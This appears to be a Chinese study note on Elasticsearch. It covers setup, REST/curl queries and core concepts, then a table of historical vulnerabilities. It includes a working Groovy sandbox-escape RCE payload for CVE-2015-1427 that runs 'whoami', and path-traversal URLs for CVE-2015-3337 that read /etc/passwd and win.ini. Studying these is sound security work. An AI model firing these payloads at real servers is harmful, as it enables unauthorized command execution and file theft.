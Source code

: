 # ElasticSearch

Elasticsearch是一个开源的搜索引擎，建立在一个全文搜索引擎库Apache Lucene基础之上。Apache Solr也是建立在Lucene上的搜索引擎。Elasticsearch提供了一套RESTful API，所以只支持JSON格式，而Solr则支持多种格式但在实时搜索性能上优于Solr。Elasticsearch是面向文档的存储的，并且使用JSON作为文档的序列化格式。

一个运行中的Elasticsearch实例称为一个节点，而集群是由一个或者多个拥有相同cluster.name配置的节点组成。Elasticsearch使用一种称为倒排索引的结构，它适用于快速的全文搜索。一个倒排索引由文档中所有不重复词的列表构成。

软件安装包下载： https://www.elastic.co/downloads/past-releases

源码下载： https://github.com/elastic/elasticsearch/tags

低版本远程调试： `elasticsearch -D "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5556"`

windows下安装：解压下载后的zip文件，进入bin目录，双击elasticsearch.bat。脚本之行完成会显示`started`，浏览器打开`http://localhost:9200`访问到如下格式的信息即安装成功
```
{
  "status" : 200,
  "name" : "Jekyll",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.4.2",
    "build_hash" : "927caff6f05403e936c20bf4529f144f0c89fd8c",
    "build_timestamp" : "2014-12-16T14:11:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.2"
  },
  "tagline" : "You Know, for Search"
}
```
除了通过web接口，还可以通过curl来交互(其中，VERB代表HTTP方法，包含GET、 POST、 PUT、 HEAD或者DELETE)
```
curl -X<VERB> '<PROTOCOL>://<HOST>:<PORT>/<PATH>?<QUERY_STRING>' -d '<BODY>'
```

基本概念：
```
文档： 数据的存储形式
索引（动词）： 存储文档到Elasticsearch的行为，类似INSERT。
索引（名词）： 类似传统关系型数据库中的一个数据库。index的复数为indices 或 indexes
```

基本语句
```
# /索引/文档类型/ID 录入信息， 在请求的查询串参数中加上pretty参数，使JSON响应体更加可读。
curl -X PUT "localhost:9200/megacorp/employee/1?pretty" -H 'Content-Type: application/json' -d "{\"first_name\":\"John\",\"last_name\":\"Smith\",\"age\":25,\"about\":\"I love to go rock climbing\",\"interests\":[ \"sports\", \"music\"]}"

# 查询某个ID的数据
curl -X GET "localhost:9200/megacorp/employee/1"

# 查询所有数据
curl -X GET "localhost:9200/megacorp/employee/_search"

# query-string搜索
curl -X GET "localhost:9200/megacorp/employee/_search?q=last_name:Smith"

# 替代query-string的查询表达式，适用于复杂搜索、全文搜索等。如果要对关键词更精准，可以将match替换为match_phrase，即短语搜索
GET /megacorp/employee/_search
{
    "query" : {
        "match" : {
            "last_name" : "Smith"
        }
    }
}

# 聚合分析aggregations，类似group by，可以和match等组合使用
GET /megacorp/employee/_search
{
  "aggs": {
    "all_interests": {
      "terms": { "field": "interests" }
    }
  }
}

# 查询文档中的部分字段
GET /website/blog/123?_source=title,text

# 创建新文档，而不覆盖旧的（不确定已有id的情况），只有在_index、_type和_id都不存在时才创建，否则409
PUT /website/blog/123?op_type=create
PUT /website/blog/123/_create

# 文档的部分更新
POST /website/blog/1/_update
{
   "doc" : {
      "tags" : [ "testing" ],
      "views": 0
   }
}

# 使用脚本（默认为groovy）更新文档，有些版本已禁用脚本，在config/elasticsearch.yml定义script.groovy.sandbox.enabled: false
POST /website/blog/1/_update
{
   "script" : "ctx._source.views+=1"
}

# 分页搜索，类似LIMIT
GET /_search?size=5&from=10
```

一些接口
```
_cluster/health #集群状态
_search #查询所有文档
/索引/类型/_search #具体某个索引类型下搜索所有文档

```

历史漏洞：
|漏洞编号|漏洞类型|影响版本|
|:----:|:----:|:----:|
|CVE-2014-3120|RCE|< 1.2|
|CVE-2015-1427|RCE|< 1.3.8, 1.4.3|
|CVE-2015-3337|目录穿越|< 1.4.5, 1.5.2|
|CVE-2015-5531|目录穿越|< 1.6.1|
|WooYun-2015-110216|目录穿越|< 1.5.1|


## CVE-2015-1427
Ref： https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/

POC
```
POST /_search?pretty

{"size":1, "script_fields": {"xxx":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}
```
这个漏洞的重点在于绕过沙箱。1.3之前的版本可以随意写入Java语句。后来在执行表达式查询时，增加了`GroovySandboxExpressionChecker.isAuthorized()`。
```
public boolean isAuthorized(Expression expression) {
    if (expression instanceof MethodCallExpression) {
        MethodCallExpression mce = (MethodCallExpression) expression;
        String methodName = mce.getMethodAsString(); // poc中得到的methodName为getText
        if (methodBlacklist.contains(methodName)) { // 黑名单包括"getClass"、"wait"、"notify"、"notifyAll"、"finalize"方法
            return false;
        } else if (methodName == null && mce.getMethod() instanceof GStringExpression) {
            // We do not allow GStrings for method invocation, they are a security risk
            return false;
        }
    } else if (expression instanceof ConstructorCallExpression) {
        ConstructorCallExpression cce = (ConstructorCallExpression) expression;
        ClassNode type = cce.getType();
        if (!packageWhitelist.contains(type.getPackageName())) {
            return false;
        }
        if (!classWhitelist.contains(type.getName())) {
            return false;
        }
    }
    return true;
}
```
并且能调用的包设定了白名单
```
java.lang.Math.class.getName(),
java.lang.Integer.class.getName(), "[I", "[[I", "[[[I",
...
java.util.Date.class.getName(),
java.util.List.class.getName(),
java.util.Map.class.getName(),
java.util.Set.class.getName(),
java.lang.Object.class.getName(),
```

## CVE-2015-3337
漏洞需要安装"Site plugins"，较为流行的"Site plugins"包括Head、Kopf等。安装Head插件，在bin文件夹下运行如下命令（限于5.0版本之前）
```
plugin -install mobz/elasticsearch-head
```
访问`http://localhost:9200/_plugin/head/`，查看是否安装成功（无需重启）

POC（不能在浏览器访问）
```
http://localhost:9200/_plugin/head/../../../../../../../../../etc/passwd
http://localhost:9200/_plugin/head/../../../../../../../../Windows/win.ini/
```
